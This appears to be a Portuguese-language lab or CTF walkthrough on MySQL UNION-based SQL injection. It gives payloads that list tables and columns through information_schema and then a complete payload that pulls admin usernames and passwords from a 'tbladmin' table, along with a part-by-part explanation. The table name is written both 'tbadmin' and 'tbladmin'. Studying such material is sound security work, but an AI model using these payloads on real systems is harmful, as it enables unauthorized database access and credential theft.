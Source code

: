 ### Dica de Segurança:
Se a aplicação usar aspas duplas ou outro método de escape, você pode tentar:
```sql
' UNION SELECT 1,table_name,3,4,5,6,7 FROM information_schema.tables WHERE table_schema=0x6e657773#
```
Onde `0x6e657773` é a representação hexadecimal de 'news'

---
## TBADMIN
```sql
' UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name='tbadmin'#
```

### Como Funciona na Prática:
1. A aplicação executa:
```sql
SELECT * FROM posts WHERE title='' UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name='tbadmin'#'
```

2. Resultado esperado:
   - Retorna os nomes das colunas da tabela `tbadmin`
   - Exibe na posição onde o número 2 aparecia antes

---
### Payload completo:

```sql
' UNION SELECT 1, CONCAT(AdminUserName, ":", AdminPassword), 3, 4, 5, 6, 7 FROM tbladmin#
```

---
### Explicação passo a passo:

|Parte do Comando|Explicação|
|---|---|
|`'`|Fecha o valor anterior da consulta SQL original (string aberta no backend). Isso injeta seu código a seguir.|
|`UNION`|Combina o resultado da query original com outra SELECT. Útil quando você não consegue alterar a query original diretamente, mas pode acoplar uma nova.|
|`SELECT`|Inicia a nova instrução SELECT com os dados que você quer extrair.|
|`1`|Um valor fixo (placeholder). Ele substitui a 1ª coluna no resultado da query original — deve manter o número de colunas igual para evitar erro.|
|`CONCAT(AdminUserName, ":", AdminPassword)`|Junta o nome de usuário e a senha da tabela `tbladmin`, separados por dois-pontos. Isso retorna algo como `admin:1234` em uma única coluna.|
|`3, 4, 5, 6, 7`|Placeholders para completar o número total de colunas. O número deve bater com o número de colunas da query original (por isso se usa `ORDER BY` e `UNION SELECT NULL,...` para descobrir antes).|
|`FROM tbladmin`|Especifica a tabela onde estão as colunas que queremos. Aqui, `tbladmin` provavelmente guarda os dados de login.|
|`#`|Comenta o restante da query original para que nada mais seja executado após sua injeção. No MySQL, `--` ou `#` são usados como comentário.|

---
